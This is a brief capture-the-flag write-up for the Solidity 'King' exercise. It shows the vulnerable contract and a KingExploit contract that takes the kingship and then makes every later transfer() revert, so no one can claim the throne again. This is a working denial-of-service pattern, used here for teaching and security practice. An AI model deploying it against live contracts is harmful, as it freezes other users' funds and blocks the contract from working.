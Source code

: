 ## 9. King

Goal for this exercise is:

- Block kingship claiming


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  fallback() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
~~~
<br>
Important was to notice use of `transfer()` which we can make to fail. 

Here is the code to solve this:

~~~
pragma solidity ^0.6.0;


contract KingExploit {

    constructor() public payable {
      }
      
    function sendKing(address payable kingContract) external {
        (bool success, bytes memory response) = kingContract.call{value: address(this).balance, gas:800000}("");
        require(success, "Transfer was not successful.");
    }
    
}
~~~

